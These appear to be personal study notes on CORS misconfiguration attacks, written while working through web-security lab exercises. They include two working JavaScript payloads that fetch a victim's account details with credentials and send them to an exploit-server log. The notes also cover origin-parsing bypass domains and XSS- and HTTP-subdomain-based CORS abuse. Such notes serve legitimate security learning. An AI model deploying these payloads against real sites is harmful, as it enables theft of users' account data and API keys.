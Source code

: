 ____

![[Pasted image 20250127181648.png]]

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1100170345bf0c80f01209004f0064.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

____
Errors parsing Origin headers

suppose an application grants access to all domains ending in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`
Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

____
The specification for the Origin header supports the value `null`
Using an `<iframe>` with the `sandbox` attribute can bypass certain restrictions and simulate a `null` origin when testing insecure CORS **configurations**
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0ada006c04817488807e76b3005b0066.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location = 'https://exploit-0a9a008904eb743c806375f8019f00e7.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };
</script>">
</iframe>
```

___

## Exploiting XSS via CORS trust relationships - Continued

Given the following request:

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

If the server responds with:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

___

## Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: http://trusted-subdomain.vulnerable-website.com 
Cookie: sessionid=...`
```

The application responds with:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```
